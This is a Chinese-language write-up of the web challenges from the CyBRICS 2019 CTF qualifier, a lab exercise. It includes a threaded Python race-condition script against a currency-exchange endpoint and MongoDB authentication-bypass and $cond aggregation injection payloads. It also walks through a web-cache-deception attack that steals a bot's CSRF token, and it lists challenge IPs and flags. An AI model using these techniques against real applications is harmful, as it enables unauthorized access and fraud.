# CyBRICS CTF Quals 2019 Web 题解
---

## Warmup
`http://45.32.148.106/`
打开网站，自动跳转到 `http://45.32.148.106/final.html`
一大堆字，直接查看final.html的源码，没什么发现
然后把final.html删掉，发现index.html下有个自动跳转搭配final.html的js代码，拉到最下面可以看到base64后的flag
flag: cybrics{4b646c7985fec6189dadf8822955b034}


## Bitkoff Bank
`http://95.179.148.72:8083/index.php`
注册登录后发现

可以看到自带0.00003BTC 且要买flag需要UDS大于1
几个功能分别为
MINE BTC:每次请求BTC增加0.0000000001
buy auto-miner:页面添加js代码，$0.01购买自动挖矿，并没什么用
最后一个是货币转换，UDS和UTC可以互换，比例为 0.00001 BTC : 0.109056 USD
（这里转换货币前端限制最低0.0001 可以通过抓包改）
常见思路就是条件竞争了
```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-    
import requests
import threading

s = requests.session()
url = "http://95.179.148.72:8083/index.php"
cookies = {"name":"ccccc014","password":"ccccc014"}
data1 = {"from_currency":"btc","to_currency":"usd","amount":"0.00003"}
data2 = {"from_currency":"usd","to_currency":"btc","amount":"0.3"}

def from_BTC_to_UDS():
	for i in range(0,1000):
		r = s.post(url = url , cookies = cookies , data = data1)

def from_UDS_to_BTC():
	for i in range(0,1000):
		r = s.post(url = url , cookies = cookies, data = data2)

t1 = threading.Thread(target = from_BTC_to_UDS)
t2 = threading.Thread(target = from_UDS_to_BTC)
t1.start()
t2.start()
```
可以手动把amount越加越大提高效率，跑一会就可以了
当然，还有一种更常见的思路。多线程挖矿~  亲测可行（就是跑的久x点）

flag: cybrics{50_57R4n93_pR3c1510n} 


## NopeSQL
`http://173.199.118.226/`
界面如下

2个input框是登录用的，试了几个弱口令不对，扫了一下发现了/.git/泄露
拿到index.php 

```php
<?php
require_once __DIR__ . "/vendor/autoload.php";

function auth($username, $password) {
    $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->users;
    $raw_query = '{"username": "'.$username.'", "password": "'.$password.'"}';
    $document = $collection->findOne(json_decode($raw_query));
    if (isset($document) && isset($document->password)) {
        return true;
    }
    return false;
}

$user = false;
if (isset($_COOKIE['username']) && isset($_COOKIE['password'])) {
    $user = auth($_COOKIE['username'], $_COOKIE['password']);
}

if (isset($_POST['username']) && isset($_POST['password'])) {
    $user = auth($_POST['username'], $_POST['password']);
    if ($user) {
        setcookie('username', $_POST['username']);
        setcookie('password', $_POST['password']);
    }
}

?>

<?php if ($user == true): ?>

    Welcome!
    <div>
        Group most common news by
        <a href="?filter=$category">category</a> | 
        <a href="?filter=$public">publicity</a><br>
    </div>

    <?php
        $filter = $_GET['filter'];

        $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->news;

        $pipeline = [
            ['$group' => ['_id' => '$category', 'count' => ['$sum' => 1]]],
            ['$sort' => ['count' => -1]],
            ['$limit' => 5],
        ];

        $filters = [
            ['$project' => ['category' => $filter]]
        ];

        $cursor = $collection->aggregate(array_merge($filters, $pipeline));
    ?>

    <?php if (isset($filter)): ?>

        <?php
            foreach ($cursor as $category) {
                    printf("%s has %d news<br>", $category['_id'], $category['count']);
            }
        ?>

    <?php endif; ?>

<?php else: ?>

    <?php if (isset($_POST['username']) && isset($_POST['password'])): ?>
        Invalid username or password
    <?php endif; ?>

    <form action='/' method="POST">
        <input type="text" name="username">
        <input type="password" name="password">
        <input type="submit">
    </form>

    <h2>News</h2>
    <?php
        $collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->news;
        $cursor = $collection->find(['public' => 1]);
        foreach ($cursor as $news) {
            printf("%s<br>", $news['title']);
        }
    ?>

<?php endif; ?>
```
发现题目分为两步，第一步通过身份认证，第二步读flag
没密码，我们需要绕过第一个登录的地方
```php
    $raw_query = '{"username": "'.$username.'", "password": "'.$password.'"}';
    $document = $collection->findOne(json_decode($raw_query));
```
这里是通过直接将username和password字符串拼接，且有双引号包裹，所以如下这种payload
```
username[$ne]=test&password[$ne]=test
或
username={"$ne":"test"}&password={"$ne":"test"}
```
传进来会直接当成"Array"字符串 或 "{xxxx}"字符串拼接，不可

且这是在php内完成查询而非带入mongo语句中查询，所以通过注释符来构造 也不可
```
username=admin","password":{"$ne":"test"}})//&password=a
```
更何况这里还有个json_decode 就算能构造也通不过JSON的解码

那么问题来了，怎么绕过这个json_decode同时绕过身份认证呢
Let's have a look.

后面会覆盖掉前面的内容
那么我们构造如下payload
```
username=a&password=123","password":{"$ne":"aa"},"username":"admin
```

即可绕过身份验证
其实在mongodb中原本查询也是如此


成功登录后 根据filter查询数据

测试出了5个字段
```
$_id $title $text $public $category
```
不过源码中有限制，只能显示5条，显示不到flag
简化此处功能代码如下：
```php
<?php
$filter = $_GET['filter'];
$collection = (new MongoDB\Client('mongodb://localhost:27017/'))->test->news;
$pipeline = [
	['$group' => ['_id' => '$category', 'count' => ['$sum' => 1]]],
	['$sort' => ['count' => -1]],
	['$limit' => 5],
];
$filters = [
			['$project' => ['category' => $filter]]
		];
$cursor = $collection->aggregate(array_merge($filters, $pipeline));
if (isset($filter)){
	foreach ($cursor as $category) {
		printf("%s has %d news<br>", $category['_id'], $category['count']);
	}
}
```
查询这里通过aggregate（聚合）方法来查询，其中几个参数的作用为
`$project`：修改输入文档的结构。可以用来重命名、增加或删除域，也可以用于创建计算结果以及嵌套文档。
`$limit`：用来限制MongoDB聚合管道返回的文档数。
`$group`：将集合中的文档分组，可用于统计结果。
`$sort`：将输入文档排序后输出。
$project这里可视为根据所输入的条件创建一个小集合
查了下官方文档，看到一个[$cond](https://docs.mongodb.com/manual/reference/operator/aggregation/cond/) 可以加以利用，相当于MySQL中的 if 条件语句
通过构造类似于
```
/index.php?filter[$cond][if][$eq][]=11111&filter[$cond][if][$eq][]=22222&filter[$cond][then]=$text&filter[$cond][else]=$_id
或者
/index.php?filter[$cond][0][$eq][]=11111&filter[$cond][0][$eq][]=22222&filter[$cond][]=$text&filter[$cond][]=$_id
```
判断11111 与 22222 是否相等（$eq），相等则按$text显示，不等则按$_id显示

我们根据刚才`filter=$category`查询知道
```
politics has 9 news
flags has 9 news
finance has 5 news
comedy has 5 news
```
`category`中有`flags`
这里先给出一个读flag的payload再来解释
```
/index.php?filter[$cond][0][$eq][]=flags&filter[$cond][0][$eq][]=$category&filter[$cond][1]=$text&filter[$cond][2]=1111
或者
/index.php?filter[$cond][if][$eq][]=flags&filter[$cond][if][$eq][]=$category&filter[$cond][then]=$text&filter[$cond][else]=1111
```
相当于
`filter=if("flags"="$category",$text,1111);`
先看个图容易搞明白

这里总共2条数据，如果`$username`等于 admin 时，将`categorytest`设置为原本的`$password`，否则当成 "22222" 字符串
再去解读刚刚的payload，如果`$category`等于 flags 时，新集合中的`category`设置为原本的`$text`，否则按字符串 "1111" 输出


flag: cybrics{7|-|15 15 4 7E><7 |=|_49}

## Caesaref & Fixaref
### Caesaref
很nb的非预期
`http://45.77.218.242/`
其他web题暂时都还活着 就这个关了 作者看不下去了？
和Fixaref基本功能类似，不过bot发请求时把自己的cookie带上了...
直接改cookie拿到flag
flag: cybrics{k4Ch3_C4N_83_vuln3R48l3}
注意这个flag

### Fixaref
`http://95.179.190.31/`
注册登录，一个单一的input框
随便输入123后看到返回可以输入一个link

输入自己的vps地址收到响应

可以看到是 python-requests 发起的请求
并且如果能正常请求到与请求不到有不同的回显 能判断是否存在页面
常见思路是ssrf，不过获取不到页面的回显 又不像urllib能crlf注入 
就算判断出了有redis也打不了

本来思路到这里就有点断了，后来想起来那个非预期的flag好像不是随机字符，果断看了一下
cybrics{k4Ch3_C4N_83_vuln3R48l3}
kache can be vulnerable
kache... cache?
服务器端会有缓存？
先让bot访问一下某资源，自己在短时间内再次访问，得到的会是和bot请求一样的？
当然静态资源又不会变，自己访问和bot访问本来就是一样的。
访问`/index.php/testccccc.css`
得到

内容还是index.php
不过这个请求在服务器端被认为是`testcccc.css`静态文件，从而产生缓存
我们此时用一个未登录过的cookie去访问`/index.php/testccccc.css`
发现得到的和上图一样，那么我们让bot用自己的cookie访问`/index.php/hacktest.css`
我们再请求这个'静态文件'，有



用得到的`csrf-token`构造读flag的请求 注意`&`符号要urlencode一下

`http://95.179.190.31/index.php/flag.css?csrf-token=bot's_token%26flag=1`
然后我们访问
`http://95.179.190.31/index.php/flag.css?csrf-token=bot's_token&flag=1`
即可获取flag


Flag: cybrics{Bu9s_C4N_83_uN1N73Nd3D!}

